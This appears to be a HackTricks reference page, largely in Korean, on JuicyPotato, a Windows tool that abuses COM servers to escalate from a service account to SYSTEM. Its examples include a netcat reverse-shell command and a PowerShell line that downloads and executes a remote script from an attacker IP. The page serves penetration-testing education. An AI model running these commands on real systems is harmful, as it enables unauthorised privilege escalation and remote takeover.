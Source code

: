 # JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato는** Windows Server 2019 및 Windows 10 빌드 1809 이상에서 **작동하지 않습니다. 그러나** [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)를 사용하여 **동일한 권한을 활용하고 `NT AUTHORITY\SYSTEM`** 수준의 액세스를 얻을 수 있습니다. _**확인:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (abusing the golden privileges) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_조금의 주스를 더한_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, 즉 **Windows 서비스 계정에서 NT AUTHORITY\SYSTEM으로의 또 다른 로컬 권한 상승 도구**_

#### juicypotato는 [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)에서 다운로드할 수 있습니다.

### Summary <a href="#summary" id="summary"></a>

[**juicy-potato Readme에서**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) 및 그 [변형들](https://github.com/decoder-it/lonelypotato)은 [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [서비스](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126)를 기반으로 한 권한 상승 체인을 활용하며, `127.0.0.1:6666`에서 MiTM 리스너를 가지고 있고, `SeImpersonate` 또는 `SeAssignPrimaryToken` 권한이 있을 때 작동합니다. Windows 빌드 검토 중에 `BITS`가 의도적으로 비활성화되고 포트 `6666`이 사용 중인 설정을 발견했습니다.

우리는 [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)를 무기화하기로 결정했습니다: **Juicy Potato에 인사하세요**.

> 이론에 대해서는 [Rotten Potato - 서비스 계정에서 SYSTEM으로의 권한 상승](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)을 참조하고 링크와 참고 문헌의 체인을 따라가세요.

우리는 `BITS` 외에도 여러 COM 서버를 악용할 수 있다는 것을 발견했습니다. 이들은 다음을 충족해야 합니다:

1. 현재 사용자에 의해 인스턴스화 가능해야 하며, 일반적으로는 임시 권한이 있는 “서비스 사용자”입니다.
2. `IMarshal` 인터페이스를 구현해야 합니다.
3. 상승된 사용자(SYSTEM, Administrator 등)로 실행되어야 합니다.

몇 가지 테스트 후, 여러 Windows 버전에서 [흥미로운 CLSID 목록](http://ohpe.it/juicy-potato/CLSID/)을 얻고 테스트했습니다.

### Juicy details <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato는 다음을 허용합니다:

* **대상 CLSID** _원하는 CLSID를 선택하세요._ [_여기_](http://ohpe.it/juicy-potato/CLSID/) _에서 OS별로 정리된 목록을 찾을 수 있습니다._
* **COM 리스닝 포트** _선호하는 COM 리스닝 포트를 정의하세요(하드코딩된 6666 대신)_
* **COM 리스닝 IP 주소** _서버를 원하는 IP에 바인딩하세요_
* **프로세스 생성 모드** _임시 사용자 권한에 따라 선택할 수 있습니다:_
* `CreateProcessWithToken` (필요: `SeImpersonate`)
* `CreateProcessAsUser` (필요: `SeAssignPrimaryToken`)
* `둘 다`
* **시작할 프로세스** _익스플로잇이 성공하면 실행할 실행 파일 또는 스크립트_
* **프로세스 인수** _실행된 프로세스 인수를 사용자 정의하세요_
* **RPC 서버 주소** _은밀한 접근을 위해 외부 RPC 서버에 인증할 수 있습니다_
* **RPC 서버 포트** _외부 서버에 인증하고 방화벽이 포트 `135`를 차단하는 경우 유용합니다…_
* **테스트 모드** _주로 테스트 목적, 즉 CLSID 테스트를 위한 것입니다. DCOM을 생성하고 토큰의 사용자를 출력합니다. _[_테스트를 위한 여기_](http://ohpe.it/juicy-potato/Test/)를 참조하세요._

### Usage <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### 최종 생각 <a href="#final-thoughts" id="final-thoughts"></a>

[**juicy-potato Readme에서**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

사용자가 `SeImpersonate` 또는 `SeAssignPrimaryToken` 권한을 가지고 있다면, 당신은 **SYSTEM**입니다.

이 모든 COM 서버의 남용을 방지하는 것은 거의 불가능합니다. `DCOMCNFG`를 통해 이러한 객체의 권한을 수정하는 것을 고려할 수 있지만, 행운을 빕니다. 이는 도전적일 것입니다.

실제 해결책은 `* SERVICE` 계정 아래에서 실행되는 민감한 계정과 애플리케이션을 보호하는 것입니다. `DCOM`을 중지하면 이 익스플로잇을 확실히 억제할 수 있지만, 기본 OS에 심각한 영향을 미칠 수 있습니다.

출처: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## 예시

참고: 시도할 CLSID 목록은 [이 페이지](https://ohpe.it/juicy-potato/CLSID/)를 방문하세요.

### nc.exe 리버스 셸 얻기
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### 새로운 CMD 실행 (RDP 접근 권한이 있는 경우)

![](<../../.gitbook/assets/image (300).png>)

## CLSID 문제

대부분의 경우, JuicyPotato가 사용하는 기본 CLSID는 **작동하지 않으며** 익스플로잇이 실패합니다. 일반적으로 **작동하는 CLSID**를 찾기 위해 여러 번 시도해야 합니다. 특정 운영 체제에 대해 시도할 CLSID 목록을 얻으려면 이 페이지를 방문해야 합니다:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **CLSID 확인하기**

먼저, juicypotato.exe 외에 몇 가지 실행 파일이 필요합니다.

[Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1)를 다운로드하고 PS 세션에 로드한 후, [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1)를 다운로드하여 실행합니다. 해당 스크립트는 테스트할 수 있는 CLSID 목록을 생성합니다.

그런 다음 [test\_clsid.bat](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(CLSID 목록과 juicypotato 실행 파일의 경로를 변경) 을 다운로드하고 실행합니다. 이 스크립트는 모든 CLSID를 시도하기 시작하며, **포트 번호가 변경되면 CLSID가 작동했음을 의미합니다**.

**-c 매개변수를 사용하여** 작동하는 CLSID를 **확인하세요.**

## 참고 문헌

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
